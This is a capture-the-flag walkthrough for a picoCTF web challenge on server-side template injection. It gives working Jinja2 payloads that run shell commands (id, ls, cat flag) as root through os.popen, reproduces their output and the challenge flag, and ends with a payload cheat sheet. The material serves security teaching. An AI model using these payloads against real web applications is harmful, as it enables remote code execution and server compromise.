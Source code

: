 # SSTI1 - Server-Side Template Injection Walkthrough

**Challenge Name:** SSTI1   
**Author:** Venax  
**Category:** Web Exploitation  


---

## 🧠 Description

> *"I made a cool website where you can announce whatever you want! Try it out!  
> I heard templating is a cool and modular way to build web apps! Check out my website here!"*

We're presented with a simple web app that allows user-submitted announcements. The twist? It's built using a server-side templating engine. Our mission is to test the app for **Server-Side Template Injection (SSTI)** vulnerabilities — and if found, exploit it to retrieve a hidden flag.

---

## 📘 What is SSTI?

**Server-Side Template Injection (SSTI)** happens when user input is unsafely incorporated into a template that the server renders. If the input is evaluated as part of the template, attackers may execute arbitrary code on the backend.

This can lead to:
- Information disclosure (e.g., config values, environment variables)
- Command execution on the server
- Full remote code execution (RCE)

### 💡 Common Template Engines Vulnerable to SSTI:
- **Jinja2** (Python - Flask)
- **Twig** (PHP - Symfony)
- **Smarty** (PHP)
- **ERB** (Ruby)
- **Velocity** (Java)

### 🔍 Detecting SSTI

Start with a basic arithmetic test:
```jinja
{{7*7}}
```
If the output returns `49`, the input is being interpreted — indicating a vulnerable template engine.

---

## 🕵️‍♂️ Recon & Initial Testing

Injected the test payload:
```jinja
{{7*7}}
```

**Output:**
```
49
```

✅ This confirms the input is evaluated. Based on the syntax, it's most likely using **Jinja2** (commonly found in Python Flask apps).

---

## 🧨 Exploitation Process

With Jinja2, we can abuse Python’s introspection capabilities to break out of the sandbox and interact with system-level features.

### ✅ Step 1: Run a System Command

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

**Explanation:**
- `__import__('os')` brings in the OS module.
- `popen('id')` runs the `id` command in the shell.
- `read()` captures the output.

**Output:**
```
uid=0(root) gid=0(root) groups=0(root)
```

✅ Remote code execution as the **root** user.

---

### 📁 Step 2: View Files in Current Directory

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

**Output:**
```
__pycache__  app.py  flag  requirements.txt
```

📝 Now we know the file containing the flag is named `flag`.

---

### 🏁 Step 3: Read the Flag

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

**Flag:**
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}
```

---

## 🎓 Key Takeaways

- **SSTI is critical** — it can lead to server takeover if not properly mitigated.
- Never embed raw user input into templates without escaping or sanitization.
- Jinja2 and other engines support introspection features that attackers can leverage.
- Use proper input handling and sandboxing when working with dynamic templates.

---

## 🧰 Jinja2 Cheat Sheet for SSTI

```jinja
{{7*7}}                                 # Basic evaluation test
{{config}}                              # Access app config (may leak secrets)
{{self}}                                # Inspect current object/context
{{cycler.__init__.__globals__}}        # Get access to global variables
{{cycler.__init__.__globals__.os.popen('ls').read()}}  # Run OS commands
```
